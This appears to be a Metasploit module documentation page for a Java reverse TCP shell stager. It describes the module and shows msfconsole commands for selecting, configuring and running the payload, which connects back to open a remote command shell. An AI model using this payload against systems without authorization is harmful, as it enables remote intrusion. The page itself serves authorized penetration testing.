 ## Command Shell, Java Reverse TCP Stager

Spawn a piped command shell (cmd.exe on Windows, /bin/sh 
everywhere else). Connect back stager


## Module Name
payload/java/shell/reverse_tcp

## Authors
* mihi
* egypt





## Platforms
* java

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/java/shell/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    
